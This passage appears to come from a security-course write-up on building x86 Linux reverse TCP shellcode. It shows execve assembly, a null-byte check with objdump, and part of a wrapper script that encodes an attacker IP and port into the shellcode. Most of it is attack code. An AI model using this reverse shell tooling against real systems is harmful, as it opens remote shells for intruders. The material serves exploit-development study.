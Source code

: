 ```nasm
    mov ebx, esp    ; pointer to command string
    mov ecx, eax
    mov edx, eax
    mov al, 11      ; __NR_execve
    int 0x80
```  
  
Let's compile, run and see if we are receiving our connection back:  
![image1]({{ site.url }}/public/images/slae/assignment2/image1.png)  
  
Perfect, and what about the bad characters:  
```bash
objdump -d ./shell_reverse_tcp -M intel| grep 00
```
  
Nothing, good. Let's update our [wrapper.sh](https://github.com/phackt/slae/blob/master/assignment2/wrapper.sh) script and create our [shell_reverse_tcp.template](https://github.com/phackt/slae/blob/master/assignment2/shell_reverse_tcp.template) file. Please click and check the sources on Github.  

The wrapper.sh and the template file have been enhanced in order to avoid null bytes in port number and IP address:    
```bash
#! /bin/bash

#####################################
# Displays help
#####################################
function help(){
    echo "Usage: $0 <ip> <port_number> <file>"
    exit 1
}

#####################################
# Checking is root
#####################################

if [ $# -ne 3 ]; then
    help
fi

IP=$1
PORT=$2
FILE=$3

##############################
# Checking the port number
##############################

if [ ${PORT} -lt 1 ] || [ ${PORT} -gt 65535 ]; then
	echo "[*] Port number should be between 1 and 65535! Exiting..."
	exit
fi

# Converting port in hex and little endian representation
HEXFMTPORT=`printf "%04x" ${PORT}`
HEXFMTPORT1=$([ $((16#${HEXFMTPORT:0:2})) -ne 0 ] && echo 0x${HEXFMTPORT:0:2} || echo dl)
HEXFMTPORT2=$([ $((16#${HEXFMTPORT: -2})) -ne 0 ] && echo 0x${HEXFMTPORT: -2}	 || echo dl)

# final nasm filename
NASM_FILENAME=${FILE%.*}.nasm

########################
# Splitting IP address
########################
IP1=`echo ${IP} | cut -d. -f1`
```